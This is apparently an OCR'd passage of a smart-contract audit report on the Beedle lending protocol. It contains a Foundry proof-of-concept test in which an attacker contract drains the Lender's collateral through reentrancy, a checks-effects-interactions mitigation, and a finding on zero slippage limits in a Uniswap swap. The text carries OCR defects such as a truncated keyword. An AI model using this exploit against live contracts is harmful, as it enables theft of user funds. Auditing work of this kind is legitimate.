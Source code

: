 ```solidity
                    loanIds[0] = loanId;
                    lender.repay(loanIds);
                }          
            }
        }        
    }
}
```
File: Lender.t.sol

Add the below test to file:

```solidity
unction test_exploit7() public {
	address attacker = address(0x5);
	// Setup
	collateralToken.transfer(address(lender), 10_000*10**18);
	collateralToken.transfer(address(attacker), 1_000*10**18 + 1); 

	// Before the exploit
	assertEq(collateralToken.balanceOf(address(lender)), 10_000*10**18);  // Lender contract has 10_000 collateralToken
	assertEq(collateralToken.balanceOf(address(attacker)), 1_000*10**18 + 1); // Attacker has 1_000 collateralToken

	// Exploit starts here
	vm.startPrank(attacker); // Attacker wants to drain all collateralTokens from the contract        
	Exploit7 attackContract = new Exploit7(lender, address(collateralToken));
	collateralToken.transfer(address(attackContract), 1_000*10**18 + 1);
	attackContract.attack(address(collateralToken));

	// After the exploit
	assertEq(collateralToken.balanceOf(address(lender)), 1);               // Lender contract has been drained (1 wei left)
	assertEq(collateralToken.balanceOf(address(attacker)), 11_000*10**18); // Attacker has stolen all the 10_000 collateralToken
}

```

**Recommended Mitigations:** Always follow the:> Checks - Effect - Interactions CEI) pattern

### [H-3] `Beedle::Fees.sol` lacks slippage protection

**Description:** The `Fees::sellProfits()` functions lacks slippage protection, the `amountOutMinimum` and `sqrtPriceLimitX96` are set to `0` when swapping in uniswap pools this makes the user vulnerable to price manipulation attacks, and user will end getting very less or no tokens. 

```solidity
function sellProfits(address _profits) public {
        require(_profits != WETH, "not allowed");
        uint256 amount = IERC20(_profits).balanceOf(address(this));

        ISwapRouter.ExactInputSingleParams memory params = ISwapRouter
            .ExactInputSingleParams({
                tokenIn: _profits,
                tokenOut: WETH,
                fee: 3000,
                recipient: address(this),
                deadline: block.timestamp,
                amountIn: amount,
@>                amountOutMinimum: 0, 
@>                sqrtPriceLimitX96: 0 
            });

```